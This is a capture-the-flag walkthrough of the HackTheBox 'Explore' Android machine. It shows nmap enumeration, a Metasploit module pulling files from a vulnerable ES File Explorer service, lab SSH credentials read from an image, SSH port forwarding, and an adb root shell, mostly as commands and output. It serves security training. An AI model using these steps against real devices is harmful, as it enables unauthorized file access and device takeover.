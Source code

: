 ```yaml
---
title: "HackTheBox | Explore"
date: "2023-10-16T00:00:00Z"
tags: [hackthebox, android, metasploit, explore]
categories: [HackTheBox]
cover:
  image: "/assets/HTB/Explore/infopanel.png"
author: [status-quo, DaanBreur]
---
```


# Synopsis

Exploit the file sharing service to get an image of credentials, then use pivoting to get access to ADB (_Android Debug Bridge_) to get root.

# Port Scan

Lets start the enumeration of the machine by port scanning, the machine has the ip-address of `10.10.10.247`.

```bash
nmap 10.10.10.247
#Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 21:50 CEST
#Nmap scan report for 10.10.10.247
#Host is up (0.028s latency).
#Not shown: 65530 closed tcp ports (conn-refused)
#PORT      STATE    SERVICE
#2222/tcp  open     EtherNetIP-1
#5555/tcp  filtered freeciv
#36869/tcp open     unknown
#42135/tcp open     unknown
#59777/tcp open     unknown
```

There seems to be some ports open.
It looks like that there is an SSH server running on port `2222`.

```bash
nc 10.10.10.247 2222
#SSH-2.0-SSH Server - Banana Studio
```

We don't have any credentials so we will return to it once we manage to get credentials.
Port `42135` and `59777` seem to be supporting the **HTTP** protocol.
After some more enumeration, quite literally googling the port numbers, I was able to discover a vulnerable version of **_ES File Explorer_** was running.

# Getting User

Since this is an easy box we probably could use **Metasploit**, after searching we indeed find some Metasploit scripts.

```bash
msf6 > use auxiliary/scanner/http/es_file_explorer_open_port
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set RHOST 10.10.10.247
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - Name: VMware Virtual Platform
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Running this script shows us that this is indeed a vulnerable version of **_ES File Explorer_**. We are also able to list some files.

```bash
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set action LISTPICS
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777
  concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg
  anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png
  creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg
  224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png
```

The file, `creds.jpg`, sounds interesting lets download it and inspect its contents.

```bash
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > set ACTIONITEM /storage/emulated/0/DCIM/creds.jpg
ACTIONITEM => /storage/emulated/0/DCIM/creds.jpg
msf6 auxiliary(scanner/http/es_file_explorer_open_port) > run

[+] 10.10.10.247:59777   - /storage/emulated/0/DCIM/creds.jpg saved to /home/status-quo/.msf4/loot/20231016150813_default_10.10.10.247_getFile_644222.jpg
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

![](images/credentials.png)

Opening the file we indeed see something interesting, it looks like a username and password.
These might be the much needed ssh credentials: `kristi:Kr1sT!5h@Rp3xPl0r3!`

Lets try to connect.

```bash
ssh kristi@10.10.10.247 -p 2222 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa
```

And we are successfully connected, lets get the flag. If you never did anything with android before the flag might be hard to find.
It's in the `storage/emulated/0/` directory ([_"where is the home folder on android.stackexchange.com"_](https://android.stackexchange.com/questions/64046/where-is-the-home-folder))

```bash
cat /storage/emulated/0/user.txt
# REDACTED
```

# Getting Root

Returning to our nmap scan, there was a filtered port which we could now reach using SSH pivoting.

```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa
```

Port 5555 is commonly known as the adb port https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge

```bash
adb shell
adb root
cat /data/root.txt
# REDACTED
```

